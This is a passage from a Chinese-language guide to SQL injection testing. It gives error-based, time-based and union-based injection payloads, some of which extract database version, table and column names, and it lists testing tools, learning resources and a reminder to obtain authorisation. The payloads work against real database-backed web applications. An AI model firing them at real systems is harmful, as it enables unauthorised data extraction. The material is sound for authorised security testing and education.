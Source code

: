 1. 保持通讯以便和SRC审核沟通具体问题  
  
### 高级技术  
### 基于错误的 SQLi  
```
' AND 1=convert(int,(SELECT @@version))--
' AND 1=convert(int,(SELECT table_name FROM information_schema.tables))--' AND 1=convert(int,(SELECT column_name FROM information_schema.columns))--

```  
### 基于时间的 SQLi  
```
';WAITFOR DELAY '0:0:10'--
';IF(1=1) WAITFOR DELAY '0:0:10'--
' OR IF(1=1,SLEEP(10),'false')--

```  
### 基于联合的 SQLi  
```
' UNION SELECT 1,2,3--
' UNION SELECT null,null,null--' UNION SELECT @@version,null,null--

```  
### 工具和资源  
### 额外的测试工具  
- Burp Suite Professional  
  
- OWASP ZAP  
  
- Acunetix  
  
- Netsparker  
  
- Nuclei  
  
### 学习资源  
1. OWASP SQL 注入预防速查表  
  
1. PortSwigger 的 Web 安全学院  
  
1. HackerOne CTF 挑战  
  
1. PentesterLab SQL 注入练习  
  
1. DVWA（非常易受攻击的 Web 应用程序）  
  
## 结论  
  
SQL 注入测试仍然是 Web 应用程序安全领域的一项关键技能。本全面指南为进行彻底、负责任的安全测试提供了基础。请记住，最终目标是提高安全态势并保护系统和数据。  
### 关键要点  
1. 始终获得适当的授权  
  
1. 完整记录  
  
1. 系统化测试  
  
1. 负责任地报告  
  
1. 持续学习  
  
**注意：** 本文专为教育和授权安全测试目的而设计。进行安全测试时，始终获得适当的权限并遵守适用的法律法规。  
  
  
